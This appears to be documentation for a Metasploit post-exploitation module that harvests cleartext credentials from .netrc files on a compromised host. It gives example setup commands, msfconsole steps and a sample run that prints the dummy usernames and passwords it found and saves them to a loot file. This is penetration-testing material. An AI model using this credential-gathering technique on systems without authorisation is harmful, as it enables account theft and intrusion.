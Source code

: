## Vulnerable Application

Post module to obtain credentials saved for FTP and other services
in `.netrc`

This file is kept in user's home directories to configure various services,
such as curl, but contains cleartext credentials.

### Example netrc file

Example documentation can be found in the curl docs on netrc:
https://everything.curl.dev/usingcurl/netrc

```
echo "machine example.com login daniel password qwerty" > ~/.netrc
echo "machine example2.com" >> ~/.netrc
echo "login daniel2" >> ~/.netrc
echo "password qwerty2" >> ~/.netrc
```

## Verification Steps

1. Start msfconsole
1. Get a shell on a system
1. Do: `use post/multi/gather/netrc_creds`
1. Do: `set session [session]`
1. Do: `run`
1. If any `.netrc` files exist with credentials, they will be read and stored into a loot file.

## Options

## Scenarios

### Ubuntu 22.04.01

```
msf auxiliary(scanner/ssh/ssh_login) > sessions -l

Active sessions
===============

  Id  Name  Type         Information   Connection
  --  ----  ----         -----------   ----------
  1         shell linux  SSH ubuntu @  2.2.2.2:39857 -> 1.1.1.1:22 (1.1.1.1)

msf auxiliary(scanner/ssh/ssh_login) > use post/multi/gather/netrc_creds
msf post(multi/gather/netrc_creds) > set session 1
session => 1
msf post(multi/gather/netrc_creds) > run

[*] Reading: /bin/.netrc
[*] Reading: /dev/.netrc
[*] Reading: /home/syslog/.netrc
[*] Reading: /home/ubuntu/.netrc
[*] Reading: /nonexistent/.netrc
[*] Reading: /root/.netrc
[*] Reading: /run/ircd/.netrc
[*] Reading: /run/sshd/.netrc
[*] Reading: /run/systemd/.netrc
[*] Reading: /run/uuidd/.netrc
[*] Reading: /usr/games/.netrc
[*] Reading: /usr/sbin/.netrc
[*] Reading: /var/backups/.netrc
[*] Reading: /var/cache/man/.netrc
[*] Reading: /var/cache/pollinate/.netrc
[*] Reading: /var/lib/gnats/.netrc
[*] Reading: /var/lib/landscape/.netrc
[*] Reading: /var/lib/tpm/.netrc
[*] Reading: /var/lib/usbmux/.netrc
[*] Reading: /var/list/.netrc
[*] Reading: /var/mail/.netrc
[*] Reading: /var/snap/lxd/common/lxd/.netrc
[*] Reading: /var/spool/lpd/.netrc
[*] Reading: /var/spool/news/.netrc
[*] Reading: /var/spool/uucp/.netrc
[*] Reading: /var/www/.netrc

.netrc credentials
==================

 Username  Password  Server
 --------  --------  ------
 daniel    qwerty    example.com
 daniel2   qwerty2   example2.com

[*] Credentials stored in: /root/.msf4/loot/20221008103946_default_1.1.1.1_netrc.creds_551386.txt
[*] Post module execution completed
```
